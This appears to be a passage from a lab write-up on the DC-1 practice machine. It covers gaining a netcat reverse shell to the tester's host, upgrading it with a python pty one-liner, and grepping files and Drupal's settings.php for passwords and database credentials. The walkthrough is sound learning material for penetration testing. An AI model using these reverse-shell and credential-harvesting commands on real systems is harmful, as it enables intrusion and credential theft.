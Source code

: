 ![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410134347.png)

So netcat is on the server, and we have our fake php shell on this server. Lets use netcat to create a bash shell on this server, so we can really elevate our privileges.

**Reverse shell** 
`nc -e /bin/bash 192.168.49.108 22`

`-e` says that we want to send an application

`/bin/bash` is specifies we want to send a terminal 

![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410134912.png)

![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410134923.png)

So, after establishing a netcat listener on our virtual machine and connecting to that listener by sending a reverse bash shell to ourselves from the exploited machine, we can now interact with the exploited machine from the listener. 

After typing  `whoami` we can see we get a response back 'www-data' which means we are successfully receiving a connection from the exploited DC-1 box.

We have a shell, and can now cd in and out of directories, but its hard to interpret whats going on and read stuff.

So lets make this prettier with a python one-line script that creates a more readable shell.

![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410135322.png)

So, using `python -c "import pty;pty.spawn('/bin/bash');"`

we can create a more readable shell, which actually shows us the user that we are logged in as (www-data) on the exploited machine (DC-1).

- Because this is a CMS, and we have logins, our methodology should include looking for configuration files which might contain credentials that we can use to login to connected services.

- Run a bash one-liner to look for these important files:
`for i in $(find . -type f 2>dev/null);do cat $i | grep -i pass && echo $i; done
`

- So this one-liner pipes anything and everything that we read in files and and looks specifically for the phrase 'pass', so that we can look for instances of passwords.

- Running this one-liner will take a while as it searches every file on the current directory.

We didn't really find anything from the massive wall of text this printed out, so instead we looked up what the default configuration file of drupal is, which google tells us is 'settings.php'

First we have to navigate to where this file is located, then cat it out.
![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410140550.png)
- Now, we are gonna look for 'username' and 'password' within this php file.

![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410140635.png)

We find some interesting details here, which are database credentials (probably for mySQL). 
